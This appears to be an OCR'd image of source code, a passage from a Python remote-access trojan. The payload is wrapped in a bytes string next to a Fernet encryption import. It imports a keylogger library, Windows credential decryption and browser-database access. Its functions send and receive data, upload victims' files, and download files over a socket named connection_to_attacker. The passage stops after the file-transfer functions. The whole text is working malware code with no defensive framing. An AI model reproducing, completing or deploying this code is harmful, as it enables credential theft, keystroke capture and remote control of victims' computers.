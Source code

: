 from cryptography.fernet import Fernet
code = b"""
import base64
import socket
import tempfile
import json
import os
from pynput import keyboard
import time
import sys
import subprocess
import threading
import time
import requests
import re
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import shutil
from datetime import timezone, datetime, timedelta
def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def reliable_recv():
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue



def upload_file(file_name):
    f = open(file_name, 'rb')
    packet = f.read(1024)
    while len(packet) > 0:
        connection_to_attacker.send(packet)
        packet = f.read(1024)
    connection_to_attacker.send('DONE'.encode())



def download_file(file_name):
    f = open(file_name, 'wb')
    while True:
        chunk = connection_to_attacker.recv(1024)
        if chunk.endswith('DONE'.encode()):
            f.write(chunk[:-4])
            f.close()
            break
        f.write(chunk)
